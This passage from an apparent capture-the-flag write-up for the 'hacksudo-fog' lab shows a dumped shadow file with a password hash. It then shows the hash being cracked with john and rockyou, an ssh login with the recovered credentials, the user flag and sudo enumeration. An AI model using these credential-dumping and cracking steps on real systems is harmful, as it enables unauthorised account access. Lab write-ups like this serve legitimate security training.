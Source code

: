 systemd-coredump:!!:18751::::::
messagebus:*:18751:0:99999:7:::
sshd:*:18751:0:99999:7:::
mysql:!:18751:0:99999:7:::
_rpc:*:18751:0:99999:7:::
statd:*:18751:0:99999:7:::
tftp:*:18751:0:99999:7:::
ftpuser:!:18751:0:99999:7:::
isro:$6$DMdxcRB0fQbGflz2$39vmRyBB0JubEZpJJN13rSzssMQ6t1R6KXLSPjOmpImsyuWqyXHneT8CH0nKr.XDEzKIjt1H3ndbNzirCjOAa/:18756:0:99999:7:::
dnsmasq:*:18756:0:99999:7:::
{% endhighlight %}

Copy the isro user shadow line to a separate file for cracking with john:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-fog]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt isro-shadow 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty           (isro)
1g 0:00:00:00 DONE (2021-05-27 10:09) 5.555g/s 711.1p/s 711.1c/s 711.1C/s 123456..diamond
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

we can log in over ssh with the credentials `isro:qwerty` and get the user flag:

{% highlight terminal %}
isro@hacksudo:~$ cat user.txt 
8b64d2451b7a8f3fd17390f88ea35917
{% endhighlight %}

`sudo -l` output:
{% highlight terminal %}
isro@hacksudo:~$ sudo -l
[sudo] password for isro: 
Matching Defaults entries for isro on hacksudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User isro may run the following commands on hacksudo:
    (root) /usr/bin/ls /home/isro/*
{% endhighlight %}

Checking the fog directory:
{% highlight terminal %}
isro@hacksudo:~/fog$ ls -asl
total 3700
   4 drwxr-xr-x 2 isro isro    4096 May 13 05:06 .
   4 drwxr-x--- 5 isro isro    4096 May 13 07:28 ..
  20 -rwxr-xr-x 1 root isro   16712 May 12 13:46 fog
   0 -rw-r--r-- 1 isro isro       0 May  6 14:30 get
  68 -rwxr-xr-x 1 isro isro   69368 May  6 14:29 ping
3604 -rwxr-xr-x 1 isro isro 3689352 May  6 14:30 python
{% endhighlight %}
